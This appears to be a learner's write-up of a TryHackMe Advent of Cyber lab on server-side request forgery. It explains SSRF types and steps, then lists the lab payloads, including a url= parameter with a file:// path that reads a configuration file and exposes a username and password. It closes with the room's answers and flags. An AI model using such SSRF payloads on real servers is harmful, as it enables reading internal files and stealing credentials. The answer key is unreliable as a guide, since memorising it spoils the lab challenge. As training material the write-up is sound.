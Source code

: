 
# Task 28  [Day 22] SSRF Jingle Your SSRF Bells: A Merry Command & Control Hackventure

#ssrf

## Learning Objectives

- Understanding server-side request forgery (SSRF)
- Which different types of SSRF are used to exploit the vulnerability
- Prerequisites for exploiting the vulnerability
- How the attack works
- How to exploit the vulnerability
- Mitigation measures for protection

## What Is SSRF?

SSRF, or server-side request forgery, is a security vulnerability that occurs when an attacker tricks a web application into making unauthorised requests to internal or external resources on the server's behalf. This can allow an attacker to interact with internal systems, potentially leading to data exposure or unauthorised actions. Leaving web applications vulnerable to SSRF can have profound security implications, potentially leading to unauthorised access to internal systems, remote code execution (RCE), data breaches, or the application being further compromised.  

 
## Types of SSRF Attack

- **Basic:** In a basic SSRF attack, the attacker sends a crafted request from the vulnerable server to internal or external resources. For example, they might attempt to access files on the local file system, internal services, or databases that are not intended to be publicly accessible.
- **Blind SSRF**: In a blind SSRF attack, the attacker doesn't directly see the response to the request. Instead, they may infer information about the internal network by measuring the time it takes for the server to respond or observing error message changes.
- **Semi-blind SSRF**: In semi-blind SSRF, again, the attacker does not receive direct responses in their browser or application. However, they rely on indirect clues, side-channel information, or observable effects within the application to determine the success or failure of their SSRF requests. This might involve monitoring changes in application behaviour, response times, error messages, and other signs.
 
## Prerequisites for Exploitation

- **Vulnerable input points:** Web applications must have input fields susceptible to manipulation, such as URLs or file upload functionalities.
- **Lack of input validation**: The application should have adequate input validation or effective sanitisation mechanisms, allowing an attacker to craft malicious requests.

## How Does SSRF Work?

- **Identifying vulnerable input**: The attacker locates an input field within the application that can be manipulated to trigger server-side requests. This could be a URL parameter in a web form, an API endpoint, or request parameter input such as the referrer.
- **Manipulating the input**: The attacker inputs a malicious URL or other payloads that cause the application to make unintended requests. This input could be a URL pointing to an internal server, a loopback address, or an external server under the attacker's control.
- **Requesting unauthorised resources**: The application server, unaware of the malicious input, makes a request to the specified URL or resource. This request could target internal resources, sensitive services, or external systems.
- **Exploiting the response**: Depending on the application's behaviour and the attacker's payload, the response from the malicious request may provide valuable information, such as internal server data, credentials, system credentials/information, or pathways for further exploitation.


## Working

**Identify vulnerable input:**

http://mcgreedysecretc2.thm/api.php



http://10.10.32.33/getClientData.php?url=http://10.2.6.197/

http://10.10.32.33/getClientData.php?url=file:////var/www/html/config.php

```
<?php
$username = "mcgreedy";
$password = "mcgreedy!@#$%";

?>
```

- Enter to dashboard
http://mcgreedysecretc2.thm/dashboard.php






## Answer the questions below

Is SSRF the process in which the attacker tricks the server into loading only external resources (yea/nay)?

NAN

What is the C2 version?  

1.1

What is the username for accessing the C2 panel?  

 mcgreedy

What is the flag value after accessing the C2 panel?  

 THM{EXPLOITED_31001}

What is the flag value after stopping the data exfiltration from the McSkidy computer?  

THM{AGENT_REMOVED_1001}



I completed  Task 28  [Day 22] SSRF Jingle Your SSRF Bells: A Merry Command & Control Hackventure!, Don't miss out Tryhackme #AdventOfCyber @RealTryHackMe https://tryhackme.com/room/adventofcyber2023